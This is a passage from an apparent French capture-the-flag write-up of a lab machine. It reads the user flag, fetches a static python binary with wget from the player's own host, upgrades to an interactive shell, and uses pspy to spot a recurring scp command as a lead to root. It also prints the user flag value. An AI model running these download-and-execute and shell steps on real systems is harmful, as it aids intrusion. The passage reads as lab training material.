 Le fichier *user.txt* n'a pas les droits de lecture (sans doute pour obliger les joueurs à avoir un shell pour le lire), on lui donne et le lit.

```bash
chmod +r user.txt
cat user.txt
	7fab2c31fc7173a86872db45ae922073
```

# Devenir root

## Obtenir un meilleur shell

Avant de devenir root, une première chose à faire est d'avoir un shell digne de ce nom. Problème : Comme on l'a vu on est dans un docker, il n'y a donc quasiment aucun binaire.

Celui dont nous avons le plus besoin est **python**. Pour ça, un dépot git existe : [static-binaries](https://github.com/andrew-d/static-binaries) !

On va donc le récupérer via un serveur HTTP fait en python sur ma machine.

```bash
cd /tmp
wget 10.10.14.58:9000/python2.7 2>&1 #Le 2>&1 permet d'avoir le retour du wget
wget 10.10.14.58:9000/python2.7.zip 2>&1
chmod +x python2.7
```

Puis on effectue notre suite de commande habituelle pour avoir un beau shell intéractif

```bash
PYTHONPATH=/tmp/python2.7.zip ./python2.7 -c 'import pty;pty.spawn("/bin/sh")'
	<Ctrl+Z>

stty -a | head -n1 #Je lis les valeurs rows & columns
stty raw -echo
fg #Il faut faire plusieures fois entrée
stty rows X columns Y #Avec X et Y les valeurs lues plus haut
export TERM=xterm-256color	
```



## Trouver le point d'entrée

Maintenant, il faut trouver comment accéder au root de la machine sachant que nous sommes dans un docker.

J'utilise donc [pspy](https://github.com/DominicBreuker/pspy) pour voir ce qu'il se passe (ici encore récupéré via wget). Et on voit chaque minute une commande est executée par notre utilisateur.

```bash
ash -c scp -f /opt/fatty/tar/logs.tar 
```

L'option **-f** de scp est non-documentée. En réalité c'est un serveur distant qui demande à notre docker de lui envoyer le fichier */opt/fatty/tar/logs.tar*. A partir de là on peut établir une hypothèse sur ce qui est executé sur le serveur que l'on veut atteindre.
